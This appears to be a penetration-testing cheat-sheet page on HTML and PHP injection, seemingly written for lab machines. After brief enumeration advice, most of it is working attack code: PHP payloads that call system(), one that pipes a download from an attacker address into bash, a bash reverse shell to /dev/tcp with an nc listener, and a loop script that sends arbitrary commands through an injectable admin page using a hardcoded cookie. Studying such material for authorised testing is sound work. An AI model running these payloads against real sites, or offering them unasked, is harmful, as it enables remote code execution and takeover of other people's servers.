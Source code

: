 # HTML Injection



## HTML Injection Enumeration

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript
* &lt;?php = PHP code
* ?&gt; = end of PHP code

**If these characters are not removed or encoded then the website might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use these special characters!**

Test HTML tags in input fields:

```markup
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Test malicious code in other languages \(e.g PHP\)

```php
<?php system("whoami"); ?>
```

## Reverse Shell via PHP Injection

Create an index.html file in your webroot directory that actually executes bash code:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.28/443 0>&1
```

Set a listener on a port of your choosing:

```text
nc -lvnp 443
```

Inject a malicious PHP code:

```php
<?php system("curl 10.10.14.28 | bash"); ?>
```

### Fake Shell via Continous PHP Injection

The following code enters in a while loop to execute the commands and we use **read** to parse the output:

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

The script above was made by S4vitar.

Things to keep in mind:

* Cookie = You don't need a cookie if you don't have to be authenticated.
* -G = This sends a GET request and the content in the URL.
* grep = If you don't need to filter the output, then you may remove the grep commands.

